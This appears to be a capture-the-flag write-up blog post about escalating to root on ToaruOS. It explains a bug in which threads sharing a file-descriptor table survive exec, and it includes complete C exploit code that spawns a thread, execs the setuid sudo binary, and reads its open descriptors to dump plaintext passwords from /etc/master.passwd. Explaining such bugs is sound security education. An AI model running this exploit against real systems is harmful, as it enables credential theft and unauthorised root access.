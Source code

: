 ```yaml
---
layout: post
description: I like cheese with lots of holes. 🪤🫕🐭
---
```


We are given an image of the latest release of the [ToaruOS project](https://github.com/klange/toaruos)
and access to a shell as the `local` user. The goal is to read `/flag.txt` owned by root.

There are multiple vulnerabilities in the project, but the one I used resides in the way the OS handles
threads inside processes.

The `pthread_create` implementation calls `sys_clone`:
![](images/01.png)

`sys_clone` will call `clone` from `process.c`:
![](images/02.png)

This function will call `spawn_process` with the last argument (flags) set to 1.
This is the equivalent for `PROC_REUSE_FDS`, which, when set, will simply reuse the 
FD table for the new thread (process):
![](images/03.png)

The problem is that when `exec`-ing a new image, the threads created are not stopped.
This means that you can have a thread inside a new process and access every FD from it.
The thread will have a different address space, of course, but having access to the FD list
is enough to achieve privilege escalation.

The `sudo` binary has the `setuid` bit set (similar to Linux). It uses a custom library
called `libauth` to check the credentials, which opens `/etc/master.passwd`. The credentials 
are also stored in plaintext.

Having access to the FD list of the `sudo` process, we can bruteforce the FDs to read the passwords:

{% prism c %}
#include <unistd.h>
#include <stdio.h>
#include <sys/ptrace.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/signal_defs.h>
#include <sys/uregs.h>
#include <pthread.h>
#include <errno.h>

void* threadHandler(void* _unused) {
  for (;;) {
    usleep(100);
    for (int fd = 3; fd < 7; fd += 1) {
      char content[1024] = { 0 };
      int bytesRead = read(fd, content, sizeof content);
      if (bytesRead <= 0) {
        continue;
      }
      printf("%s\n", content);
    }
  }

  return NULL;
}

void threadThing() {
  pid_t pid = fork();

  if (pid < 0) {
    printf("Error forking: %d (%s)\n", errno, strerror(errno));
    exit(-1);
  }

  int isChild = pid == 0;

  if (isChild) {
    pthread_t thread;
    pthread_create(&thread, NULL, threadHandler, NULL);
    char* args[] = { "/bin/sudo", "-s", NULL };
    execvp(args[0], args);
  } else {
    waitpid(pid, NULL, 0);
  }
}

int main() {
  threadThing();
}
{% endprism %}

After multiple runs, the exploits successfully dumps the password list.